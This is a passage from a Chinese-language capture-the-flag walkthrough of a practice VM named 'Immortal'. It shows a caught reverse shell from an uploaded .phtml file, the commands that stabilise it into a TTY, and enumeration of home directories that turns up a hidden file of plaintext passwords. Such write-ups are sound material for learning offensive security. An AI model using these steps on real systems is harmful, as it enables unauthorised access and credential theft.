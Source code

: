 其中 **index.phtml** 是可以执行的，到这里我们已经拿到了 **www-data** 的 **shell**

```bash
┌──(kali㉿kali)-[~/test]
└─$ nc -lvnp 8888                     
listening on [any] 8888 ...
connect to [192.168.205.141] from (UNKNOWN) [192.168.205.223] 50866
Linux Immortal 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64 GNU/Linux
 05:32:45 up 12 min,  0 users,  load average: 1.55, 5.77, 3.77
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (490): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Immortal:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# 3. 获得稳定的 Shell

获取**反向 shell** 后，通过以下命令获得稳定的**交互式** **TTY shell**：

```bash
script /dev/null -c bash  
ctrl+z  
stty raw -echo; fg  
reset xterm  
export TERM=xterm  
echo $SHELL  
export SHELL=/bin/bash  
stty rows 59 cols 236
```

# 4.提权

```bash
www-data@Immortal:/home$ ls -al
total 20
drwxr-xr-x  5 root  root  4096 Feb 27  2024 .
drwxr-xr-x 18 root  root  4096 Feb 27  2024 ..
drw-------  2 david david 4096 Feb 29  2024 david
drwxr-xr-x  4 drake drake 4096 Feb 29  2024 drake
drwxr-xr-x  3 eric  eric  4096 Feb 29  2024 eric
www-data@Immortal:/home$ cd drake/
www-data@Immortal:/home/drake$ ls -la
total 32
drwxr-xr-x 4 drake drake 4096 Feb 29  2024 .
drwxr-xr-x 5 root  root  4096 Feb 27  2024 ..
drwxr-xr-x 2 drake drake 4096 Feb 27  2024 ...
-rw-r--r-- 1 drake drake  220 Feb 27  2024 .bash_logout
-rw-r--r-- 1 drake drake 3526 Feb 27  2024 .bashrc
drwxr-xr-x 3 drake drake 4096 Feb 27  2024 .local
-rw-r--r-- 1 drake drake  807 Feb 27  2024 .profile
-rw-r--r-- 1 drake drake   20 Feb 27  2024 user.txt
www-data@Immortal:/home/drake$ cd .../
www-data@Immortal:/home/drake/...$ ls -la
total 12
drwxr-xr-x 2 drake drake 4096 Feb 27  2024 .
drwxr-xr-x 4 drake drake 4096 Feb 29  2024 ..
-rw-r--r-- 1 drake drake  134 Feb 27  2024 pass.txt
www-data@Immortal:/home/drake/...$ cat pass.txt 
netflix : drake123
amazon : 123drake
```